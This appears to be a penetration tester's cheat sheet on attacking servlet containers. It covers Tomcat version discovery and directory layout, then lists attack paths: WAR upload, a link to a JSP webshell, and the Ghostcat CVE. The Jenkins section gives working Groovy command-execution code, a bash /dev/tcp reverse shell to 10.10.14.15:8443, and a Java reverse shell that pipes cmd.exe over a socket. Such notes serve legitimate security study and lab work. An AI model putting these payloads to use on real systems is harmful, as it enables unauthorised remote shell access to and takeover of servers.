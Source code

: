 # Attacking Servlet Containers/Software Development

### Tomcat - Discovery & Enumeration

Discover version from error page:

<img width="918" height="220" alt="image" src="https://github.com/user-attachments/assets/dba5c286-dbd2-41cb-9dfd-f63cecd0e697" />

Method: insert invalid page 


The _bin_ folder stores scripts and binaries needed to start and run a Tomcat server. 

The _conf_ folder stores various configuration files used by Tomcat. 

The **_tomcat-users.xml_** file stores user credentials and their assigned roles. 

The _lib_ folder holds the various JAR files needed for the correct functioning of Tomcat. 

The _logs_ and temp folders store temporary log files. 

The _webapps_ folder is the default webroot of Tomcat and hosts all the applications. 

The _work_ folder acts as a cache and is used to store data during runtime.


Default tree:

<img width="924" height="508" alt="image" src="https://github.com/user-attachments/assets/00ac2510-9533-4eb1-af5e-ba28d7f46843" />

<img width="940" height="377" alt="image" src="https://github.com/user-attachments/assets/e5f689c2-a319-4b3a-84e0-dec24c9b99a1" />

The most important file among these is WEB-INF/web.xml, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

### Tomcat attack path:

War upload 
https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

Direct vulnerabilities like: CVE-2020-1938 : Ghostcat


### Jenkins / Groovy script execution:
**Commnad exec Groovy:**
``` def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout ```


**RevShell Groovy:**

``` r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() ```

**Rev Shell for Windows:**

```String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); ```




